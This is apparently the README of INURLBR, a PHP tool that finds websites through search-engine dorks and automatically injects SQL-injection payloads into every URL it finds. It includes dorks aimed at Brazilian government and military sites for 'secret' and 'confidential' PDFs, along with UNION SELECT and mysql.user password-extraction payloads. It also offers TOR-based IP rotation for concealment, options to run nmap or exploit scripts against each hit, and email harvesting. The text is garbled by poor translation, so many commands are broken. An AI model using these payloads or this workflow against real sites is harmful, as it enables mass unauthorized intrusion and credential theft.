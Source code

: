 SCANNER - INURLBR 
=============== 

> Advanced search in the search engines, since Enables analysis to exploit GET / POST to capture emails & amp; internal custom validation for each target / url found. 

> 
  * GROUP GOOGLEINURL BRAZIL - ADVANCED SEARCH. 
  * SCRIPT NAME: INURLBR 
  * AUTHOR: Cleiton Pinheiro 
  * Nick: Googleinurl 
  * Blog: http://www.fb.com/soufian.ckin2u
  * Twitter: / @sows_scream
  * Facebook: / soufian.ckin2u
  * Version: 1.0.1 
  * Php5-curl LIB 
  * Php5-cli LIB 
  * CURL support enabled 
  * CURL Information 7.24.0 
  * Allow_url_fopen On 
  * Reading & Writing permission 
  * User root privilege, or is in the sudoers group 
  * Operating system LINUX 
  * Proxy random TOR 
  * ------------------------------------------------- --------- 
  * [+] PERMISSION EXECUTION: chmod + x inurlbr.php 
  * [+] INSTALLING LIB CURL: sudo apt-get install php5-curl 
  Php5-cli sudo apt-get install: * [+] INSTALLING LIB CLI 
  * [+] INSTALLING TOR PROXY https://www.torproject.org/docs/debian.html.en 
  * ------------------------------------------------- --------- 

  * [+] SIMPLE COMMANDS 
  * ./inurlbr.php --dork 'Inurl: php? Id =' save.txt -q -s 1.6 -t 1 --exploit-get '?' 0x27 "

  * ./inurlbr.php --dork 'Inurl: aspx? Id =' save.txt -q -s 1.6 -t 1 --exploit-get "''0x27?" 

  * ./inurlbr.php --dork 'Site: br inurl: aspx (id | new)' 1.6 -q -s -t 1 save.txt --exploit-get "''0x27?" 

  * ./inurlbr.php --dork 'Index of wp-content / uploads' -s -t save.txt -q 2 --exploit 1,6,2,4-get '?' -a 'Index of / wp-content / uploads' 

  * ./inurlbr.php --dork 'Site: .mil.br intext: (confidential) ext: pdf' -s -t 2 save.txt -q 1.6 --exploit-get '?' -a 'confidential' 

  * ./inurlbr.php --dork 'Site: .mil.br intext: (secret) ext: pdf' -s -t 2 save.txt -q 1.6 --exploit-get '?' -a 'secret' 

  * ./inurlbr.php --dork 'Site: br inurl: aspx (id | new)' 1.6 -q -s -t 1 save.txt --exploit-get "''0x27?" 

  * ./inurlbr.php --dork '.new.php? Id new' -s save.txt -q -t 1 --exploit 1,6,7,2,3-get "+ + UNION ALL + SELECT + 1, concat (0x3A3A4558504C4F49542D5355434553533A3A,@@version), 3,4,5; "-a 'EXPLOIT-SUCESS :: ::' 


  * Options available: 

- Help / Help: 
------ 
`` `
--help ./inurlbr.php 
./inurlbr.php --help 
./inurlbr.php -h 
`` `
- Options: 
------ 
`` `
  _ _ _ ______ _____ 
| | | | ____ | | | __ \ 
| | __ | | | __ | | | | __) | 
| __ | __ | | | | ___ / 
| | | | | ____ | | ____ | | 
| _ | | _ | ______ | ______ | _ | 
---------------------------------------------------------------------------------------------------------------------------------- 
-h 
Alternative long length --help help command. 
I specify --help Command to Help. 
Information --info script. 
  -q Choose Which search engine you want through [1 ... 13]: 
      [options]: 
      1 - www.google.com.br 
      2 - www.bing.com 
      3 - br.search.yahoo.com 
      4 - www.ask.com 
      5 - search.hao123.com.br 
      6 - ajax.googleapis.com 
      7 - search.lycos.com 
      8 - busca.uol.com.br 
      9 - us.yhs4.search.yahoo.com 
      10 - pesquisa.sapo.pt 
      11 - www.dmoz.org 
      12 - www.gigablast.com 
      13 - web.search.naver.com 
      all - All search engines 
      Default: 1 
      Example: -q {op} 
      Usage: -q 1 
               -q 5 
                Using more than one engine: -q 1,2,5,6,11 
                Using all engines: -q all 
     
  -p Choose Which proxy you want to use through the search engine: 
      Example: {-p proxy: port} 
      Usage: -p ​​localhost: 8118 
               -p socks5: // googleinurl @ localhost: 9050 
               -p http: // admin: 12334@172.16.0.90: 8080 
   
--tor Enables the TOR-random function, each unique usage an IP links. 
 
  Select the type validation -t: op 1, 2, 3 
      [options]: 
      1 - The first type uses default errors Considering the script: 
      It establishes connection with the exploit through the get method. 
      Demo: www.alvo.com.br/pasta/index.php?id={exploit} 
   
      2 - The second type tries to valid the error defined by: = -a 'ALGO_DENTRO_ALVO' 
      Also it establishes connection with the exploit through the get method 
      Demo: www.alvo.com.br/pasta/index.php?id={exploit} 
   
      3 - The third type combines Both first and second types: 
      Then, of course, Also it establishes connection with the exploit through the get method 
      Demo: www.alvo.com.br {exploit} 
      Default: 1 
      Example: -t {op} 
      Usage: -t 1 
     
      DEFAULT ERRORS: 
      CMS WORDPRESS, JDBC ERROR MYSQL ERROR, ERROR MICROSOFT, ORACLE ERROR, ERROR POSTGRESQL, 
      ZEND FRAMEWORK ERROR, ERROR PHP, ASP ERROR, LUA ERROR, ERROR INDEFINITE 
   
  Which dork --dork Defines the search engine will use. 
      Example: --dork dork {} 
      Usage: --dork 'site: .gov.br inurl: php? id '
      - Using multiples dorks: 
      Example: --dork {[DORK] dork1 [DORK] dork2 [DORK] dork3} 
      Usage: --dork '[DORK] site: br [DORK] site: air inurl: php [DORK] site: il inurl: asp' 
 
  --exploit-get Defines Which exploit will be injected through the GET method to each URL found. 
      Example: --exploit-get} {exploit_get 
      Usage: --exploit-get ''0x27;?' 
     
  --exploit post Defines Which exploit will be injected through the POST method to each URL found. 
      Example: --exploit-post} {exploit_post 
      Usage: --exploit-post '? Field1 = value1 & field2 = value2 & field3 = '0x273exploit; & button = ok' 
     
  --exploit-comand Defines Which exploit / parameter will be executed in the options: --comand-vul / - comand-all. 
      The exploit-comand will be Identified by the paramaters: --comand-vul / - as-all comand _EXPLOIT_ 
      Ex---exploit comand '/admin/config.conf' --comand-all 'curl -v _TARGET__EXPLOIT_' 
      _TARGET_ Is the specified URL / TARGET Obtained by the process 
      _EXPLOIT_ Is the exploit / parameter defined by the option --exploit-comand. 
      Example: --exploit-exploit-comand comand {} 
      Usage: --exploit-comand '/admin/config.conf' 
     
  -a Specify the string que will be used on the search script: 
      Example: string {-a} 
      Usage: -a '<title> Hello World </ title>' 
     
  Specify the script usage d p 1, 2, 3, 4, 5, 6. 
      Example: -d {op} 
      Usage: -d 1 / URL of the search engine. 
               -d 2 / Show all the url. 
               -d 3 / Detailed request of every URL. 
               -d 4 / Shows the HTML of every URL. 
               -d 5 / Detailed request of all URLs. 
             
  -s Specify the output file where it will be saved the vulnerable URLs. 
     
      Example: -s {file} 
      Usage: -s your_file.txt 
     
  -o vulnerable Manually manage the URLs you want to use from the file, without using a search engine. 
      Example: -o ​​{} file_where_my_urls_are 
      Usage: -o ​​tests.txt 
 
  -m Enable the search for emails on the specified urls. 
       
  -u Enables the search for URL lists on the url specified. 
 
  --gc Enable validation of values ​​with google webcache. 
 
  --cms-check Enable simple check if the url / target is using CMS 


  --comand-vul Every vulnerable URL found will execute this command parameters. 
      Example: --comand-vul {command} 
      Usage: --comand-vul 'nmap -p 22,80,21 _TARGET_ sV' 
               --comand-vul './exploit.sh _TARGET_ output.txt' 
             
  --comand-all Use this commmand to I specify a single command to EVERY URL found. 
      Example: --comand-all {} command 
      Usage: --comand-all 'nmap -p 22,80,21 _TARGET_ sV' 
               --comand-all './exploit.sh _TARGET_ output.txt' 
             
     Observation: 
   
     _TARGET_ Will Be Replaced by the URL / target found, although if the user 
     does not get the input, only the domain will be executed. 
   
    _TARGETFULL_ Will Be Replaced by the original URL / target found. 
   
    _EXPLOIT_ Will Be Replaced by the specified command argument --exploit-comand. 
    The exploit-comand will be Identified by the --comand-vul / parameters --comand-all the _EXPLOIT_ 

  --replace Replace values ​​in the target URL. 
     Example: {value_old --replace [INURL] value_new} 
      Usage: 'index.php? Id = [INURL] index.php id = 1666 + and + (+ SELECT user, password from + + + mysql.user limit + 0.1) = 1?' --replace 
               --replace 'main.php? id = [INURL] main.php? id = 1 + and + substring (@@version, 1,1) = 1' 
               --replace 'index.aspx? id = [INURL] index.aspx? id = 1% 27'' 
`` `

- Giving permission to run the script: 
------ 
`` `
$ chmod + x inurlbr.php 
Run: ./inurlbr.php 
`` `

- Making simple search: 
------ 
   * Command --dork sua_dork {} 
   * Command {-s} results.txt 
   * Command---exploit get {exploit} 
   * Command motor_de_busca -q {} 
`` `
./inurlbr.php --dork "site: br news php id =" "? '0x27" results.txt --exploit-get -q -s all 
`` `
- Performing research with multiple dorks: 
------ 
   * Command / simple --dork sua_dork {} 
   * Command / multiple --dork {[DORK] sua_dork1 [DORK] sua_dork2 [DORK] sua_dork3} 
`` `
./inurlbr.php --dork "[dork] site: us news php id = [dork] site: php? id = news air [dork] website:? gov.br news php id =" -s results.txt --exploit-get '?' 0x27 "-q all 
`` `
- Performing research with one or more search engines: 
------ 
   * Command motor_de_busca -q {} 
`` `
./inurlbr.php --dork "site: br news php id =" -s results.txt --exploit-get '?' 0x27 "-q {OPTION} 
./inurlbr.php --dork "site: us news php? id =" -s results.txt --exploit-get -q 5 "'0x27?" 
./inurlbr.php --dork "site: us news php? id =" results.txt --exploit-get -q -s 1,2,3,4 "'0x27?" 
./inurlbr.php --dork "site: us news php? id =" -s results.txt --exploit-get -q 12,11,7,1 '' 0x27? "

`` `
- Setting sort of error to be validated: 
------ 
   * -t Command {op} 
   * TYPE [1] Validates standard errors of the script concatenates exploit injects & starting & host gets. 
`` `
Demo: www.alvo.com.br/pasta/index.php?id={exploit} 
Demo: www.alvo.com.br/pasta/pasta2/list.php?menu=1&id={exploit} 
`` `
    Search inside the url values ​​/ standards set internally errors in the script. 
`` `
./inurlbr.php --dork "site: br news php id =" "? '0x27" results.txt --exploit-get -q -s -t 1 all 
`` `
   * TYPE [2] Validates the error defined in -a = 'ALGO_DENTRO_ALVO' concatenates exploit injects & starting & host gets. 
`` `
Demo: www.alvo.com.br/pasta/index.php?id={exploit} 
`` `
    Search inside the url values ​​/ standard errors defined in -a 'ALGO_DENTRO_ALVO' 
    Ex: I find the word "Marighella" urls found within -a 'Marighella'. 
`` `
./inurlbr.php --dork "site: br news php id =" "? results.txt --exploit-get -s' 0x27" -q -a all -t 2 'Marighella' 
`` `
   * TYPE [3] Validates error defined in -a = 'ALGO_DENTRO_ALVO' & standard script errors. 
     concatenate & exploit injects starting host. 
`` `
Demo: www.alvo.com.br {exploit} 
`` `
   > Looking inside the url values ​​/ standards + error value -a 'ALGO_DENTRO_ALVO' 
    Ex: I find the word "Marighella" urls found within -a 'Marighella'. 
    If I have an exploit that by running the url an error / value, so the script is generated by demand 
    value 'Marighella' if found url / target is considered to be vulnerable. 
`` `
Ex: Exploit = '/index.php?id=1+select+UNHEX(HEX(CONCAT_WS(0x3a,0x3A3A3A494E55524C3A3A3A)))+from+users
`` `
    > Value: 0x3A3A3A494E55524C3A3A3A is the string ':::: :: INURL' converted to hexadecimal. 
    URL / TARGET script found at: 
`` `
www.alvo.com.br/valores/casas.php?abrir=1 
`` `
    The script will filter returning only the host url + exploit, thus running. 
`` `
www.alvo.com.br/index.php?id=1+select+UNHEX(HEX(CONCAT_WS(0x3a,0x3A3A3A494E55524C3A3A3A)))+from+users
`` `
    > How do we know that was successfully exploited? 
    Setting the value -a ':::: :: INURL' if this value appears in the url is likely to run vulnerability. 
ex: 
`` `
./inurlbr.php --dork "site: br news php id =" -s results.txt 
--exploit-get "/index.php?id=1+select+UNHEX(HEX(CONCAT_WS(0x3a,0x3A3A3A494E55524C3A3A3A)))+from+users"
all -q -t 3 -a ':::: :: INURL' 
`` `
   
If you want to look for websites that use CMS 'Joomla! 1.5 ': 
ex: 
`` `
./inurlbr.php --dork 'site: br "!? How do I install Joomla! 1.5' '-s results.txt all -q -t 3 -a' Joomla! 1.5 '
`` `
- Defining exploit GET / POST. 
----- 
   * Command---exploit get {exploit} 
   * Sets exploit --exploit-get via get will be injected every URL found. 
`` `
Example: --exploit-get} {exploit_get 
Usage: --exploit-get ''0x27;?' 
          Demo: www.alvo.com.br/pasta/index.php?id={exploit-get} 
          Demo: www.alvo.com.br/pasta/pasta2/list.php?menu=1&id={exploit-get} 
`` `
   * Command --exploit-post {exploit} 
   * Sets --exploit post-exploit via post will be injected every URL found. 

`` `
Example: --exploit-post} {exploit_post 
Usage: --exploit-post '? Field1 = value1 & field2 = value2 & field3 = '0x273exploit; & button = ok' 
          Demo: www.alvo.com.br/pasta/index.php VIA POST-post} {exploit 
          Demo: www.alvo.com.br/pasta/pasta2/list.php VIA POST-post} {exploit 
`` `
- Setting custom value that must be sought within each URL / AIM: 
----- 
   * Command {-a} lookup_value 
   * Sets -a string that will be searched within each URL found. 
`` `
Example: {-a} string_procurada 
Usage: -a '<title> Hello dorkeiro </ title>' 
          Demo: -a 'Joomla! 1.5 '
          Demo: -a 'Hall -' 
          Demo: -a 'maria' 
          Demo: -a '23423423423523' 
`` `
- Defining file that will be our base URL's without the requirement to search engines: 
----- 
   * Command {-a} arquivo_urls.txt 
   * -o Defines file that will allow execucação testing based on file. 
`` `
No search engine. 
Example: -o {} arquivo_minhas_urls 
Usage: -o ​​testes.txt 
demonstrative formatted file: 
          www.alvo1.com.br/pasta2/pasta2/list2.php?menu=1&id=423423 
          www.alvo2.com.br/pasta/list.php?menu3=1&id=23 
          www.alvo3.com.br/pasta2/list.php?menu=1&id=2345 
          www.alvo4.com.br/pasta/pasta2/list2.php?menu=1&id=3 
          www.alvo7.com.br/pasta/pasta2/list.php?menu=1&id=2 
          www.alvo0.com.br/arquivo/pasta2/index.php?menu_id=1&id=1 
`` `
    > These urls will caregadas the scripts according to the parameters passed tests. 
   
  - Defining search for emails: 
----- 
   * -m Command 
   * Enables -m get list of emails within encontrdas urls. 
`` `
/inurlbr.php --dork 'mailgmail ext: txt' -s -m all -q results.txt 
`` `
  - Defining proxy / tor: 
----- 
   * -p Command {proxy} 
   * Sets -p proxy for camouflage sending request to the search engine and to exploit target. 
`` `
Example: {Proxy p} 
Use: -p localhost: 8118 
          -p socks5: // googleinurl @ localhost: 9050 
          -p http: // admin: 12334@172.16.0.90: 8080 
`` `
  - Setting proxy-random: 
----- 
   * Command-random --tor 
   * --tor Random-random function enables tor, every script execution tor change ip. 

> 
This command is only executed if you have completed the -p {proxy}. 
For that function has operation should install tor aplivativo. 
Each new run of the script in your ip TOR network will be renewed. 
Help: 
- https://www.torproject.org/docs/debian.html.en 
- http://www.privoxy.org/ 

  - Defining external command: 
----- 
   * Command-vul --comand comando_terminal {} 
   * --comand-Vul Executes commands in the terminal for each URL found vulnerable. 
`` `
     Example: --comand-vul {command} 
     Usage: --comand-vul 'nmap -p 22,80,21 _TARGET_ sV' 
              --comand-vul './exploit.sh _TARGET_ output.txt' 
              --comand-vul '-c 1 pint _TARGET_ >> output.txt' 
`` `
   * Command --comand-all {} comando_terminal 
   * --comand-All Performs commands in terminal for all URLS found. 
`` `
     Example: --comand-all {} command 
     Usage: --comand-all 'nmap -p 22,80,21 _TARGET_ sV' 
              --comand-all './exploit.sh _TARGET_ output.txt' 
              --comand-vul '-c 1 pint _TARGET_ >> output.txt' 
